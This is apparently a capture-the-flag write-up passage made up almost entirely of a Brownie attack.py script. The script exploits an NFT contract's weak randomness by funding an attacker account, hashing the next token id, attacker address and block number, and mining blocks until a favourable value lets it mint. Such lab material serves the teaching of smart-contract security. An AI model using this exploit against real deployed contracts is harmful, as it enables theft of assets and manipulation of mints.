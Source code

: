 ![](assets/p-nft2.png)


# Brownie
- Here is the `attack.py` script.
```py
#!/usr/bin/python3
from brownie import interface, web3, accounts, chain
from scripts.helpful_scripts import get_account
from colorama import Fore
from eth_abi import encode
from eth_abi.packed import encode_packed


# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def attack():
    nft = interface.INFT("0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC")

    # print(dir(nft))
    attacker = accounts.at(
        "0x0000000000000000000000000000000000001337", force=True
    )  # get_account()

    # send 1 ETH to attacker
    admin = get_account()
    admin.transfer(attacker, "1 ether").wait(1)

    # print(web3.eth.blockNumber)
    # print(attacker.address)
    # exit()
    nft_id = nft.id()
    # print(nft_id)

    for _ in range(100):
        encoded_data = encode(
            ["uint256", "address", "uint256"],
            [
                nft_id + 1,
                attacker.address,
                web3.eth.blockNumber,
            ],
        )
        u256 = web3.toInt(web3.keccak(encoded_data))

        # print(u256)
        if (u256 % 100) > 90:
            nft.mint({"from": attacker, "value": "1 ether"})
            print(u256)
            print(u256 % 100)
            break
        else:
            # make some fake tx to increase the blockNumber
            # jadu.transfer(attacker, "0.001 ether").wait(1)
            # mine next block
            chain.mine(1)
```